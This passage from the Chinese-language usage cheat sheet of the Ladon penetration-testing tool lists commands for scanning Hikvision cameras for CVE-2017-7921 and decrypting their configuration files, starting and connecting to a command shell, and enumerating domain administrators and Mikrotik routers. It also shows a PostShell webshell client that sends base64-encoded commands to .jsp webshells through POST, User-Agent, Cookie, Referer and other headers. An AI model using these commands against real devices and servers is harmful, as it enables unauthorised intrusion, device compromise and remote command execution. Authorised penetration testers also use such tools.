##### 223 hikvision 海康威视 CVE-2017-7921漏洞检测
```Bash
Ladon 192.168.1.8/24 HikvisionPoc
Ladon http://192.168.1.8:8080 HikvisionPoc
Ladon url.txt HikvisionPoc
```

##### 224 hikvision 海康威视 配置文件解密
```Bash
Ladon HikvisionDecode configurationFile
```

##### 225 Ladon测试专用CmdShell
```Bash
Ladon web 800 cmd
```

##### 226 连接测试专用CmdShell
```Bash
Ladon cmdshell http://192.168.50.2:888 cmd whoami
浏览器访问 http://192.168.1.8:800/shell?cmd=whoami
```

##### 227 查看域管理员
```Bash
Ladon QueryAdminDomain
```

##### 228 查看域信息
```Bash
Ladon QueryDomain
```

##### 229 Mndp协议广播探测同网段Mikrotik路由器信息
```Bash
Ladon MndpInfo
Ladon RouterOS
Ladon Mikrotik
```

##### 230 PostShell连接工具,支持自定义HTTP头提交
```Bash
Ladon PostShell <method> <url> <pwd> <type> <cmd>
Ladon PostShell POST http://192.168.50.18/post.jsp tom cmd whoami
Ladon PostShell POST http://192.168.50.18/post.jsp tom b64cmd d2hvYW1p
Ladon PostShell POST http://192.168.50.18/post.jsp tom base64 d2hvYW1p
Ladon PostShell UA http://192.168.50.18/ua.jsp tom cmd whoami
Ladon PostShell UA http://192.168.50.18/ua.jsp tom b64cmd d2hvYW1p
Ladon PostShell UA http://192.168.50.18/ua.jsp tom base64 d2hvYW1p
Ladon PostShell Cookie http://192.168.50.18/ck.jsp tom cmd whoami
Ladon PostShell Cookie http://192.168.50.18/ck.jsp tom b64cmd d2hvYW1p
Ladon PostShell Cookie http://192.168.50.18/ck.jsp tom base64 d2hvYW1p
Ladon PostShell Referer http://192.168.50.18/re.jsp tom cmd whoami
Ladon PostShell Referer http://192.168.50.18/re.jsp tom b64cmd d2hvYW1p
Ladon PostShell Referer http://192.168.50.18/re.jsp tom base64 d2hvYW1p
Ladon PostShell Destination http://192.168.50.18/re.jsp tom cmd whoami
Ladon PostShell Destination http://192.168.50.18/re.jsp tom b64cmd d2hvYW1p
Ladon PostShell Destination http://192.168.50.18/re.jsp tom base64 d2hvYW1p
Ladon PostShell HttpBasic http://192.168.50.18/re.jsp tom cmd whoami
Ladon PostShell HttpBasic http://192.168.50.18/re.jsp tom b64cmd d2hvYW1p
Ladon PostShell HttpBasic http://192.168.50.18/re.jsp tom base64 d2hvYW1p
```
